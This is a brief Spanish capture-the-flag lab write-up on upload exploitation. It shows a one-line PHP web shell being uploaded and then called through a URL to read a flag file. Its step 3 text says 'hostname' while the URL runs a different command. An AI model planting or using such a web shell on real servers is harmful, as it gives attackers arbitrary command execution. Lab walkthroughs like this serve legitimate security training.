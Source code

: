 # Laboratorio: Upload Exploitation 📃

1. Visitamos la página web

<p align="center">
    <img src="./assets/Absent/01-Web.PNG" width=400>
</p>

---

2. Subimos un archivo `cmd.php` con el cual podremos ejecutar comandos

* **cmd.php**
```php
<?php system($_GET['cmd']); ?>
```

---
3. Ahora ejecutaremos el comando `hostname`
* **URL:** `http://[IP]/uploads/cmd.php?cmd=cat \flag.txt`

**Output**
```
HTB{g07_my_f1r57_w3b_5h3ll}
```